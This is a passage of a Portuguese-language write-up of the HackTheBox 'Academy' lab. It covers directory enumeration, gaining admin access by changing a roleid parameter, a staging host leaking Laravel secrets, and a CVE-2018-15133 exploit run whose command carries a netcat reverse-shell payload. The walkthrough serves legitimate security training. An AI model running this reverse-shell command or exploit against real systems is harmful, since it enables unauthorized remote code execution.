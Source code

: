```bash
===============================================================
2021/02/17 12:51:55 Starting gobuster
===============================================================
/index.php (Status: 200)
/images (Status: 301)
/login.php (Status: 200)
/home.php (Status: 200)
/register.php (Status: 200)
/admin.php (Status: 200)
/config.php (Status: 200)
Progress: 48339 / 220561 (21.92%)in.php (Status: 200)

```

### admin.php

Acessando `admin.php` notei que a tela de logon se parece bastante com a tela de login anterior, porém nossas credenciais de testes não funcionaram. Lembrando que temos uma oportunidade de adulterar detalhes da criação do usuário, decidi por criar uma nova conta, desta vez alterando o parametro **roleid** substituindo o valor 0 no request por 1. Com esta nova conta, cujo roleid=**1**, consegui acessar a área restrita, onde o conteúdo abaixo doi exibido:

![HTB Academy - Admin Page](https://i.imgur.com/fCI3aBZ.png){: .align-center}

Embora não possua nenhuma informação oculta no fonte, o que chamou atenção foi o host **dev-staging-01.academy.htb**, que possivelmente também encontra-se em execução nesta máquina.

Após adicionar este host no arquivo hosts sob o mesmo endereço IP da máquina, o conteúdo abaixo foi exibido, que é um framework para tratativa de erros no PHP que permite aos desenvolvedores debugar seu código, mas neste caso estava aberto e vazando uma série de informações como credenciais e variáveis de ambiente.

![HTB Academy - DevStaging](https://i.imgur.com/qzcJmuV.png){: .align-center}

O que mais chamou a atenção dentre os dados vazados foram as credenciais de MySQL e App_key do Laravel, que podem nos levar a um acesso inicial nesta máquina.

## Acesso inicial

Como não temos a porta MySQL 3306/TCP aberta nesta máquina, com base no scan inicial do nmap, fazendo uma rápida pesquisa na internet pelo que seria possível alcançar com a App_key do Laravel encontrei o [CVE-2018-15133](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-15133) que pode nos levar a uma execução remota de código através de uma chamada de deserialização em algumas versões afetadas do Laravel. Se tivermos sorte isto deve funcionar para esta máquina :smiley:.

Realizando algumas pesquisas adicionais, encontrei [este repositório](https://github.com/aljavier/exploit_laravel_cve-2018-15133) que implementa este exploit de uma forma simples e que foi utilizado para obter um shell reverso nesta máquina.

```bash
python3 ./pwn_laravel.py http://dev-staging-01.academy.htb dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f"
```

